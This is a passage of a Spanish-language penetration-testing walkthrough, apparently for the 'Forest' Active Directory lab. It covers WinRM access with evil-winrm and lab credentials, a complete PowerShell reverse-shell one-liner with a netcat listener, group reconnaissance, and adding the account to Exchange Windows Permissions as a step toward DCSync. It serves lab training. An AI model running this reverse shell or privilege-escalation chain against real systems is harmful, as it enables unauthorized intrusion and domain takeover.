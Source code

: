 
## 5) Acceso inicial (WinRM) y alternativa reverse shell

### 5.1 WinRM
```bash
evil-winrm -i "$TARGET" -u svc-alfresco -p 's3rvice'
```
Si conecta, ya tenés PowerShell remoto como usuario de dominio.

### 5.2 (Opcional) Reverse shell “cmd over TCP”
En **Kali**:
```bash
rlwrap nc -lvnp 4444
```
En la sesión (Evil‑WinRM o cualquier RCE):
```powershell
$c=New-Object Net.Sockets.TCPClient('LHOST',4444);$s=$c.GetStream();[byte[]]$b=0..65535|%{0};
while(($i=$s.Read($b,0,$b.Length)) -ne 0){$d=[Text.Encoding]::ASCII.GetString($b,0,$i);
$r=(cmd /c $d 2>&1 | Out-String);$r2=$r+'PS '+(Get-Location).Path+'> ';
$sb=[Text.Encoding]::ASCII.GetBytes($r2);$s.Write($sb,0,$sb.Length);$s.Flush()}$c.Close()
```

---

## 6) Recon en la víctima (grupos y perfil)

Útil para detectar pertenencias con privilegios:
```powershell
whoami
whoami /groups
hostname
net user svc-alfresco /domain

# Buscar frases exactas (ojo con espacios)
whoami /groups | findstr /I /C:"Exchange Windows Permissions" /C:"Account Operators" /C:"Privileged IT Accounts"
```

---

## 7) EWP (Exchange Windows Permissions) → DCSync

**Idea:** en Forest, `svc-alfresco` suele poder agregar miembros a grupos (por estar en `Account Operators`). Metiéndonos en **EWP** y renovando token, podemos modificar la DACL del dominio para darnos **DCSync** (tres Extended Rights).

### 7.1 Añadir usuario a EWP
```powershell
net group "Exchange Windows Permissions" svc-alfresco /add /domain
net group "Exchange Windows Permissions" /domain
# Re-login para refrescar token:
exit
evil-winrm -i "$TARGET" -u svc-alfresco -p 's3rvice'
whoami /groups | findstr /I /C:"Exchange Windows Permissions"
```
